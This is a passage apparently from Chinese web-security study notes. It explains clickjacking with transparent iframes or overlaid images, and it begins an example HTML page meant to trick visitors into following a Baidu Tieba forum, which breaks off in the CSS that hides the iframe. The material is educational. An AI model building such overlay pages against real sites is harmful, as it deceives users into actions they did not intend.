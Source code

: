 - touchstart，手指触摸屏幕时发生；
- Touchend，手指离开屏幕时发生；
- Touchmove，手指滑动时发生；
- Touchcancel，系统可取消touch事件

## 攻击示例

点击劫持（ClickJacking）是一种视觉上的欺骗手段。大概有两种方式，一是攻击者使用一个透明的iframe，覆盖在一个网页上，然后诱使用户在该页面上进行操作，此时用户将在不知情的情况下点击透明的iframe页面；二是攻击者使用一张图片覆盖在网页，遮挡网页原有位置的含义。

![img](../笔记图片/dev-security-clickjack-1.png)

### iframe覆盖（嵌入iframe框）

> 以下是网上的一个例子，忽略其真实性和意义，只是辅助你理解其思路

假如我们在百度有个贴吧，想偷偷让别人关注它。于是我们准备一个页面：

```html
<!DOCTYPE HTML>
<html>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312" />
    <head>
    <title>点击劫持</title>
    <style>
        html,body,iframe{
            display: block;
            height: 100%;
            width: 100%;
            margin: 0;
            padding: 0;
            border:none;
        }
        iframe{
            opacity:0;
            filter:alpha(opacity=0);
            position:absolute;
            z-index:2;
```